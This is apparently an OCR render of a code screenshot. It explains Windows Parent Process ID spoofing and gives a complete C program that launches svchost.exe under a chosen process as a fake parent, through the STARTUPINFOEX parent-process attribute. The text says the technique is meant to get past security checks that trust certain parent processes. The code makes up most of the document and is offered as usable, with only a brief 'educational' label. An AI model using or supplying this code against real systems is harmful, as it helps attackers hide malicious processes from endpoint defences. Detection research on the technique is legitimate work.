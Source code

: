 

Parent Process ID (PPID) spoofing is a technique where an attacker launches a process with a different parent process than the one that actually spawned it. This can be used to bypass security checks, as some security solutions might trust child processes of specific trusted parent processes.

One way to achieve PPID spoofing is by using the `CreateProcess` function with the `STARTUPINFOEX` structure and `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` attribute. Here's an educational example in C that demonstrates this concept:

```
#include <windows.h>
#include <stdio.h>

int main() {
    DWORD targetPID; // The PID of the process you want to spoof as the parent
    printf("Enter the target PID to spoof as parent: ");
    scanf("%d", &targetPID);

    HANDLE hTargetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
    if (!hTargetProcess) {
        printf("Failed to open target process.\n");
        return 1;
    }

    SIZE_T size;
    STARTUPINFOEX siex = { sizeof(siex) };
    PROCESS_INFORMATION pi;

    // Set up the attribute list for the parent process spoofing
    InitializeProcThreadAttributeList(NULL, 1, 0, &size);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &size);

    // Set the parent process to the target process
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hTargetProcess, sizeof(HANDLE), NULL, NULL);

    // Create the child process (e.g., svchost.exe)
    if (!CreateProcess("C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFO)&siex, &pi)) {
        printf("Failed to create child process.\n");
        HeapFree(GetProcessHeap(), 0, siex.lpAttributeList);
        CloseHandle(hTargetProcess);
        return 1;
    }

    // Cleanup
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    HeapFree(GetProcessHeap(), 0, siex.lpAttributeList);
    CloseHandle(hTargetProcess);

    return 0;
}
=
```
